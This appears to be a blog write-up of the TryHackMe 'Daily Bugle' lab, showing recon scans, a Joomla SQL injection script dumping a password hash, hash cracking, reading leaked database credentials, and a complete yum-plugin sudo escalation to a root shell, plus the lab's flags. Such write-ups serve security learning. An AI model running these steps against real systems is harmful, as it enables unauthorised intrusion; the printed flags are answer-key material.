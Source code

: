 ```yaml
---
layout: post
title: THM — Daily Bugle
date: 2022-09-30 00:00:00 -500
categories: [TryHackMe]
tags: [Gobuster]
---
```


<img src="/assets/images/THM/Daily%20Bugle/logo.png" alt="Daily Bugle Logo" width="30%">

***
<center><strong><font color="White">Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.</font></strong></center>

***

## <strong><font color="#34A5DA">Reccon</font></strong>

First, nmap scan:
```
vladislav@Mac ~ % nmap -sV -sC 10.10.25.68
Starting Nmap 7.93 ( https://nmap.org ) at 2022-09-30 08:37 MSK
Nmap scan report for 10.10.25.68
Host is up (0.065s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68ed7b197fed14e618986dc58830aae9 (RSA)
|   256 5cd682dab219e33799fb96820870ee9d (ECDSA)
|_  256 d2a975cf2f1ef5444f0b13c20fd737cc (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.90 seconds
```

On port 80 there is an http server, let's visit the website:

<img src="/assets/images/THM/Daily%20Bugle/website.png" alt="Daily Bugle Website" width="70%">

> Who robbed the bank? `Spiderman`

Simple SQLi does not work and there are no information about what version of Joomla is it.

Let's use Gobuster to find other subpages:

```console
vladislav@Mac ~ % gobuster dir -u http://10.10.148.251 -w dsstorewordlist.txt
Error: error on parsing arguments: wordlist file "dsstorewordlist.txt" does not exist: stat dsstorewordlist.txt: no such file or directory
vladislav@Mac ~ % gobuster dir -u http://10.10.148.251 -w share/wordlists/dirs/dsstorewordlist.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.148.251
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                share/wordlists/dirs/dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/30 16:51:58 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 236] [--> http://10.10.148.251/images/]
/robots.txt           (Status: 200) [Size: 836]                                   
/index.php            (Status: 200) [Size: 9280]                                  
/.htaccess            (Status: 403) [Size: 211]                                   
/templates            (Status: 301) [Size: 239] [--> http://10.10.148.251/templates/]
/cache                (Status: 301) [Size: 235] [--> http://10.10.148.251/cache/]    
/includes             (Status: 301) [Size: 238] [--> http://10.10.148.251/includes/] 
/plugins              (Status: 301) [Size: 237] [--> http://10.10.148.251/plugins/]  
/media                (Status: 301) [Size: 235] [--> http://10.10.148.251/media/]    
/modules              (Status: 301) [Size: 237] [--> http://10.10.148.251/modules/]  
/tmp                  (Status: 301) [Size: 233] [--> http://10.10.148.251/tmp/]      
/components           (Status: 301) [Size: 240] [--> http://10.10.148.251/components/]
/bin                  (Status: 301) [Size: 233] [--> http://10.10.148.251/bin/]       
/language             (Status: 301) [Size: 238] [--> http://10.10.148.251/language/]  
/libraries            (Status: 301) [Size: 239] [--> http://10.10.148.251/libraries/] 
/cli                  (Status: 301) [Size: 233] [--> http://10.10.148.251/cli/]       
/administrator        (Status: 301) [Size: 243] [--> http://10.10.148.251/administrator/]
/LICENSE.txt          (Status: 200) [Size: 18092]                                        
/layouts              (Status: 301) [Size: 237] [--> http://10.10.148.251/layouts/]      
/htaccess.txt         (Status: 200) [Size: 3005]                                         
/README.txt           (Status: 200) [Size: 4494]                                         
/configuration.php    (Status: 200) [Size: 0]                                            
/.htpasswd            (Status: 403) [Size: 211]                                          
/.htpasswds           (Status: 403) [Size: 212]                                          
/.user.ini            (Status: 403) [Size: 211]                                          
/web.config.txt       (Status: 200) [Size: 1690]                                         
                                                                                         
===============================================================
2022/09/30 16:52:13 Finished
===============================================================
```

One more wordlist:
```console
vladislav@Mac ~ % gobuster dir -u http://10.10.148.251 -w share/wordlists/dirs/big.txt             
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.148.251
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                share/wordlists/dirs/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/30 17:13:03 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 211]
/.htaccess            (Status: 403) [Size: 211]
/administrator        (Status: 301) [Size: 243] [--> http://10.10.148.251/administrator/]
/bin                  (Status: 301) [Size: 233] [--> http://10.10.148.251/bin/]          
/cache                (Status: 301) [Size: 235] [--> http://10.10.148.251/cache/]        
/cgi-bin/             (Status: 403) [Size: 210]                                          
/cli                  (Status: 301) [Size: 233] [--> http://10.10.148.251/cli/]          
/components           (Status: 301) [Size: 240] [--> http://10.10.148.251/components/]   
/images               (Status: 301) [Size: 236] [--> http://10.10.148.251/images/]       
/includes             (Status: 301) [Size: 238] [--> http://10.10.148.251/includes/]     
/language             (Status: 301) [Size: 238] [--> http://10.10.148.251/language/]     
/layouts              (Status: 301) [Size: 237] [--> http://10.10.148.251/layouts/]      
/libraries            (Status: 301) [Size: 239] [--> http://10.10.148.251/libraries/]    
/media                (Status: 301) [Size: 235] [--> http://10.10.148.251/media/]        
/modules              (Status: 301) [Size: 237] [--> http://10.10.148.251/modules/]      
/plugins              (Status: 301) [Size: 237] [--> http://10.10.148.251/plugins/]      
/robots.txt           (Status: 200) [Size: 836]                                          
/templates            (Status: 301) [Size: 239] [--> http://10.10.148.251/templates/]    
/tmp                  (Status: 301) [Size: 233] [--> http://10.10.148.251/tmp/]          
                                                                                         
===============================================================
2022/09/30 17:16:02 Finished
===============================================================
```

robots.txt file:
```
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Looking at README.txt we can get the version of Joomla.

> What is the Joomla version? `3.7.0`

Moreover, we can use msfconsole to check the version:
```console
umsf6 > se auxiliary/scanner/http/joomla_version
msf6 auxiliary(scanner/http/joomla_version) > set RHOSTS 10.10.148.251
msf6 auxiliary(scanner/http/joomla_version) > run

[*] Server: Apache/2.4.6 (CentOS) PHP/5.6.40
[+] Joomla version: 3.7.0
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

***

## <strong><font color="#34A5DA">Exploitation</font></strong>

As THM suggests, we can search for a python script instead of SQLi. Found <a href="https://github.com/stefanlucas/Exploit-Joomla">this one</a>. Download it via wget and run:
```console
vladislav@Mac ~ % python3 joomblah.py http://10.10.148.251
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

So, we got username and his password hash. The hash starts with `$2y$` and google says that it's BCrypt. So let's use JohnTheRipper to crack the password:
```console
vladislav@Mac ~ % john joo_pass --format=bcrypt --wordlist=share/wordlists/rockyou.txt --fork=10
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Node numbers 1-10 of 10 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
Use the "--show" option to display all of the cracked passwords reliably
Session completed

vladislav@Mac ~ % john joo_pass --format=bcrypt --show                                          
?:spiderman123

```

After running for the first time, it was obvious that it would theoretically take enermous time to crack the pass. So by adding `-fork=10` we use parallelization with 10 processes.

So we get the password: `spiderman123`.

> What is Jonah's cracked password? `spiderman123`

Now we can log into Joomba CMS located at `http://10.10.198.38/administrator/index.php`.

I didn't find any shells or something like that, so went to Google with `Joomla Reverse Shell` and found <a href="https://vk9-sec.com/reverse-shell-on-any-cms/">this article</a>. Following the instruction in this article we can get the reverse shell. However, we are an unpriviliged user. Searching for classic ways of privilege escalation, so let's try some automated tools for searching.

***

## <strong><font color="#34A5DA">Privilege Escalation</font></strong>

Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.

- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

However, I didn't manage to execute any of these. So I went searching manually. Finally, in `/var/www/html` we can find file `configuration.php` containing next:
```php
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'UAMBRWzHO3oFPmVC';
	public $gzip = '0';
	public $error_reporting = 'default';
	public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}';
	public $ftp_host = '127.0.0.1';
	public $ftp_port = '21';
	public $ftp_user = '';
	public $ftp_pass = '';
	public $ftp_root = '';
	public $ftp_enable = '0';
	public $offset = 'UTC';
	public $mailonline = '1';
	public $mailer = 'mail';
	public $mailfrom = 'jonah@tryhackme.com';
	public $fromname = 'The Daily Bugle';
	public $sendmail = '/usr/sbin/sendmail';
	public $smtpauth = '0';
	public $smtpuser = '';
	public $smtppass = '';
	public $smtphost = 'localhost';
	public $smtpsecure = 'none';
	public $smtpport = '25';
	public $caching = '0';
	public $cache_handler = 'file';
	public $cachetime = '15';
	public $cache_platformprefix = '0';
	public $MetaDesc = 'New York City tabloid newspaper';
	public $MetaKeys = '';
	public $MetaTitle = '1';
	public $MetaAuthor = '1';
	public $MetaVersion = '0';
	public $robots = '';
	public $sef = '1';
	public $sef_rewrite = '0';
	public $sef_suffix = '0';
	public $unicodeslugs = '0';
	public $feed_limit = '10';
	public $feed_email = 'none';
	public $log_path = '/var/www/html/administrator/logs';
	public $tmp_path = '/var/www/html/tmp';
	public $lifetime = '15';
	public $session_handler = 'database';
	public $shared_session = '0';
}
```

There is a root password: `nv5uz9r3ZEDzVjNu`. So, we can switch to root. `su root` doesn't work. However, in `/home` directory we can find user `jjameson`. This works. Inside his home directory we can't find user.txt containing flag.

> What is the user flag? `27a260fe3cba712cfdedb1c86d80442e`.

However, we don't have access to `/root` directory. 

```console
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Seraching on gtfobins we can't find to spawn an interactive root shell:
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

After that we can access `root` directory.

> What is the root flag? `eec3d53292b1821868266858d7fa6f79`
